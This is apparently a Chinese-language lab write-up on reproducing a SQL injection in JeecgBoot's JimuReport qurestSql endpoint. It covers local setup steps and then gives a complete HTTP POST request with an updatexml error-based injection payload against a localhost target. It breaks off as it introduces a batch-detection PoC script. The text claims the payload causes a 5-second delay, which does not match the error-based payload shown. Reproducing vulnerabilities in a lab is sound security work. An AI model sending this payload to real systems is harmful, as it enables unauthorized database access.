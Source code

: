 ![]()

配置WebStorm环境

![]()

 **启动前端**

安装依赖：右键package.json文件yarn install

![]()

然后就是漫长的等待

![]()

等依赖下载完成，启动系统

  * 

    
    
    npm run dev

![]()

点击输出的第一个url访问环境

  * 

    
    
    http://localhost:3100/

![]()

六、漏洞复现  

靶场是前后端分离的，前端为3100后端为8080，漏洞在8080端口

向目标发送如下请求数据包，使响应延迟5秒

  *   *   *   *   *   *   * 

    
    
    POST /jeecg-boot/jmreport/qurestSql HTTP/1.1Host: localhost:8080Content-Length: 134Content-Type: application/jsonUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36  
    {"apiSelectId":"1316997232402231298","id":"1' or '%1%' like (updatexml(0x3a,concat(0x23,(select current_user)),0x23)) or '%%' like '"}

  

![]()

证明存在sql注入漏洞

七、漏洞验证poc

该python脚本可以批量检测漏洞，C:\Users\DELL\Desktop\1.txt为输入目标文件，每行是一个url

